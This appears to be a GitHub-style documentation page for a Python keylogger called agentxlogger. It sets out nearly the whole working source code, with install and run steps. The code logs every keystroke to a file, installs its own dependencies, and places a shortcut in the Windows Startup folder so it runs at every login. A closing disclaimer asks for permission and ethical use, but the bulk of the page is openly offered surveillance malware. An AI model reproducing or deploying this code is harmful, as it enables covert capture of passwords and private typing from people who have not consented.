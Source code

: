 

Python agentxlogger Documentation
Overview
This Python keylogger captures keystrokes and logs them into a file. It is designed to run in the background and can automatically start with the operating system. The captured keystrokes are saved in a file named key_log.log.

Prerequisites
Before running the keylogger, ensure you have the following libraries installed:

pynput: For capturing keyboard events.
plyer: For displaying notifications (if desired).
pywin32: For creating Windows shortcuts.
If these libraries are not installed, the keylogger will attempt to install them automatically.

Installation
Ensure Python is installed on your system.
Download the script and save it as keylogger.py.
Run the script using Python:
bash
Copy code
python keylogger.py
The script will check for required packages and install any that are missing.

Usage
Once the script is running, it will capture all keyboard inputs until the "Escape" key is pressed. The logged keystrokes will be saved in key_log.log in the same directory as the script.

Automatic Startup
The keylogger creates a shortcut in the Windows Startup folder, ensuring it runs automatically whenever the user logs into Windows.

Code Explanation
Imports and Package Installation
python
Copy code
import subprocess
import sys
import os
import win32com.client  

def install(package):
    subprocess.check_call([sys.executable, "-m", "pip", "install", package])
subprocess: Used for executing system commands.
sys: Provides access to system-specific parameters and functions.
os: Used for interacting with the operating system.
win32com.client: Used for creating Windows shortcuts.
Library Import and Installation
python
Copy code
try:
    from pynput.keyboard import Key, Listener
    from plyer import notification
except ImportError:
    list1 = ['tkinter', 'pynput', 'plyer', 'pywin32']
    for i in list1:
        install(i)
This section attempts to import necessary libraries. If any library is missing, it installs them.

Logging Mechanism
python
Copy code
log_file = "key_log.log"
log_content = ""

def on_press(key):
    global log_content
    try:
        if key.char: 
            log_content += key.char  
    except AttributeError:
        if key == Key.backspace:
            log_content = log_content[:-1] 
        else:
            log_content += f" {key} "

    with open(log_file, "w") as f: 
        f.write(log_content)
log_file: Specifies the name of the log file.
log_content: A string that holds the recorded keystrokes.
on_press: A callback function triggered when a key is pressed. It appends the pressed key to log_content and writes it to log_file.
Key Release Handling
python
Copy code
def on_release(key):
    if key == Key.esc:
        return False
on_release: A callback function triggered when a key is released. If the "Escape" key is pressed, it stops the listener.
Creating a Startup Shortcut
python
Copy code
def create_startup_shortcut():
    keylogger_path = os.path.join(os.path.dirname(sys.executable), "dist", "keylogger.exe")

    startup_folder = os.path.join(os.getenv("APPDATA"), "Microsoft", "Windows", "Start Menu", "Programs", "Startup")

    shell = win32com.client.Dispatch("WScript.Shell")
    shortcut = shell.CreateShortCut(os.path.join(startup_folder, "Keylogger.lnk"))
    shortcut.TargetPath = keylogger_path
    shortcut.WorkingDirectory = os.path.dirname(keylogger_path)
    shortcut.save()

create_startup_shortcut()
create_startup_shortcut: Creates a Windows shortcut to ensure the keylogger runs at startup.
Main Listener
python
Copy code
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
Listener: A context manager that listens for keyboard events. It calls on_press and on_release as keys are pressed and released, respectively.
Important Notes
Ensure that you have permission to run a keylogger on the system.
Misuse of this software can lead to legal consequences. Use it responsibly and ethically.

